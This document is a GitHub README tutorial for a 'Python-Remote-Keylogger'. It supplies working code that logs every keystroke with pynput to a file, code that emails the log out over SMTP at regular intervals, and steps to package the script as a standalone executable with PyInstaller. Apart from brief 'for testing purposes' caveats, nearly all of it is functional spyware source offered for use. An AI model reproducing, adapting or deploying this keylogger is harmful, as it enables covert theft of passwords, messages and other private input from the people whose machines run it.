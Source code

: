 # Python-Remote-Keylogger-
Creating a python keylogger to record keystrokes remotely. 

Objective:

Build a Python-based keylogger to:
	1.	Record keystrokes locally.
	2.	Save them to a log file.
	3.	Optionally email the logs to yourself for testing purposes.

Prerequisites:
	1.	Programming Knowledge: Basic understanding of Python.
	2.	Environment: Python installed on your system.
	3.	Libraries: Install the necessary Python libraries:
	•	pynput (to capture keystrokes).
	•	smtplib (for sending emails, optional).

Install dependencies:

pip install pynput

Step 1: Capture Keystrokes
	1.	Import the pynput library:

from pynput.keyboard import Key, Listener


	2.	Define a function to log keystrokes:

def on_press(key):
    try:
        with open("key_log.txt", "a") as log_file:
            log_file.write(f"{key.char}")
    except AttributeError:
        with open("key_log.txt", "a") as log_file:
            log_file.write(f" {str(key)} ")


	3.	Define a function to handle special keys:

def on_release(key):
    if key == Key.esc:  # Stop logging when Esc is pressed
        return False


	4.	Set up the key listener:

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

Step 2: Save Logs to a File

The captured keystrokes will be saved to a file named key_log.txt in the same directory as the script.

Step 3: Send Logs via Email (Optional)

If you’d like to email the logs (for testing purposes only), follow these steps:
	1.	Import the smtplib library:

import smtplib
from email.mime.text import MIMEText


	2.	Define a function to send the email:

def send_email():
    sender_email = "your_email@example.com"
    receiver_email = "your_email@example.com"
    password = "your_email_password"
    
    with open("key_log.txt", "r") as log_file:
        log_content = log_file.read()
    
    message = MIMEText(log_content)
    message["Subject"] = "Keylogger Logs"
    message["From"] = sender_email
    message["To"] = receiver_email
    
    with smtplib.SMTP("smtp.example.com", 587) as server:
        server.starttls()
        server.login(sender_email, password)
        server.sendmail(sender_email, receiver_email, message.as_string())


	3.	Call send_email() at regular intervals (e.g., after logging a certain number of keystrokes).

Step 4: Add Error Handling

Enhance the script to handle errors, such as permissions issues or missing libraries.

Step 5: Package the Keylogger
	1.	Convert the script to an executable for testing purposes using PyInstaller:

pip install pyinstaller
pyinstaller --onefile keylogger.py


	2.	The executable will be created in the dist folder.

Step 6: Test in a Virtual Environment
	•	Run the keylogger in a controlled environment (e.g., a virtual machine) to observe its functionality.